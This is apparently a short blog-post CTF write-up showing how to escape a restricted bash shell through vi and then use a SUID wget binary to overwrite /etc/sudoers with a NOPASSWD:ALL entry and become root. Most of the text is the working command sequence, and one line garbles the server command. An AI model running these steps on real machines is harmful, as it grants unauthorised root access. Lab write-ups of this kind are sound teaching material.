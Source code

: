 ```yaml
---
layout: post
title: "PrivEsc abusing WGET SUID"
date: 2020-04-17 00:22:00 -0000
categories: jekyll
permalink: /ctf.live/wgetsuid
tags: [privesc, wget, SUID]

---
```


https://www.ctf.live/challengedetails?cid=21
##### escape restricted shell
`fesal@rbash_attackdefense:~$`
~~~~
:set shell=/bin/bash
:shell
export PATH=.bin:/usr/bin/
echo $PATH
~~~~
##### use wget SUID to transfer file to /etc/sudoers
~~~~
cd /tmp
vi sudoers
:i[enter] - to edit file
fesal ALL=(ALL) NOPASSWD:ALL
:wq - - to save exit file
~~~~
~~~~
python -m SimpleHTTPServer 8009 & -O /etc/sudoers ~~[why need '&' - to use terminal and simpleServer works in bg]~~
export URL=http://127.0.0.1:8009/sudoers
export LFILE=/etc/sudoers
wget $URL -O $LFILE
sudo -i 
~~~~
`root@rbash_attackdefense:~$`
